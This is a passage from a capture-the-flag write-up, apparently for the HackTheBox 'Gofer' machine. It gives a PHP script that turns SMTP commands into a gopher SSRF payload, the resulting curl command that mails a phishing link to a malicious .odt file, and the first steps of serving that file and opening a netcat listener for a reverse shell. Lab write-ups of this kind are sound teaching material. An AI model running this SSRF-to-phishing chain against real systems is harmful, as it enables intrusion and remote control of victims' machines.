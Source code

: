 To [generate](https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2) such a link, I created a PHP script to convert SMTP commands into a gopher link: <br/>

```php
<?php
        $commands = array(
                "MAIL FROM: <root@gofer.htb>",
                "RCPT TO: <jhudson@gofer.htb>",
                "DATA",
                "Subject: Important mail",
                "Click on this link: http://10.10.14.20/phish.odt for more info", // Replace the IP address with your 'tun0' IP address.
                "."
        );
$payload = implode('%0A', $commands); 
$encoded_payload = urlencode($payload);
echo 'curl -X POST http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/_' . $encoded_payload;

?>
```

> You can find the source code [here](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/blob/main/HTB/Gofer/gopher-generator.php)

* Let's run this script:

```bash
$ php gopher-generator.php

curl -X POST http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/_MAIL+FROM%3A+%3Croot%40gofer.htb%3E%250ARCPT+TO%3A+%3Cjhudson%40gofer.htb%3E%250ADATA%250ASubject%3A+Important+mail%250AClick+on+this+link%3A+http%3A%2F%2F10.10.14.20%2Fphish.odt+for+more+info%250A.
```

* As can be seen from the output, the script generates a `cURL` command that, when executed, exploits the SSRF vulnerability in the '`url`' parameter to send an email directly to '`jocelyn`', including a link to our crafted `phish.odt` file.

## **<strong><font color="DarkCyan">Shell as jhudson</font></strong>**
### **<strong><font color="DarkKhaki">Serving and sending</font></strong>**

Now, simply start an HTTP server using Python to serve our malicious `.odt` file and initiate our command and control (C2) by running a netcat listener on the port specified in the reverse shell script within the Macro. <br/>

**1-** Start a python webserver on port **80** <br/>

```bash
python3 -m http.server 80
```

**2-** Start a netcat listener on port **9999**: <br/>
